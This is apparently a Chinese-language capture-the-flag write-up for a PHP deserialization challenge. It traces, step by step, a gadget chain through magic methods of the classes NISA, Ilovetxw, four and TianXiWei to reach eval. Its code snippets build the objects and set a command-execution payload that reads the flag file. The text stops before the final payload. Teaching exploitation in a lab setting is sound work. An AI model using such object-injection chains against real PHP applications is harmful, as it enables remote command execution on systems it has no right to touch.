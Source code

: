 解题思路：

1. 寻找可用 eval 等可用执行命令，获取flag的命令

发现 eval 在 NISA 类的 `__invoke` 魔术方法中，当尝试以调用函数的方式调用一个对象时，`__invoke()` 方法会被自动调用。

```php
$obj = new CallableClass;
$obj(5);
```

eval 接受 NISA 类的 txw4ever属性，注意 fun 的值不能为 show_me_flag。

```php
$nisa = new NISA;
$nisa->fun = "test";
$nisa->txw4ever = "SYSTEM(\"cat /f*\")";
```



2. 寻找类似于 `$functionName($args)` 的代码。

发现在 Ilovetxw 类的 __tostring 魔术方法中，当尝试将类转换为一个字符串是会调用该对象。

```php
$bb = $this->su;
return $bb();
```

Ilovetxw 类 __tostring 调用 su 属性存储的可变函数。

```php
$love = new Ilovetxw;
$love->su = $nisa;
```



3. 寻找会使用字符串的函数

发现在 four 的 __set 函数中 strtolower 接受一个字符串参数，在给不可访问（protected 或 private）或不存在的属性赋值时，`__set()` 会被调用。

four 类将 a 属性交给 strtolower 函数。

```php
$four = new four;
$four->a = $love;
```



4. 寻找会访问私有变量的函数

four 有一个私有变量 fun ，Ilovetxw 类中有个 __call 函数 会使用  fun。在对象中调用一个不可访问方法时，`__call()` 会被调用。

```php
$love->huang = $four;
```



5. 寻找会调用对象方法的函数

TianXiWei 类中的 __wakeup 会使用 nisa ，且 four 中没有 nisa 方法。`__wakeup ` 会在反序列化时自动被调用。
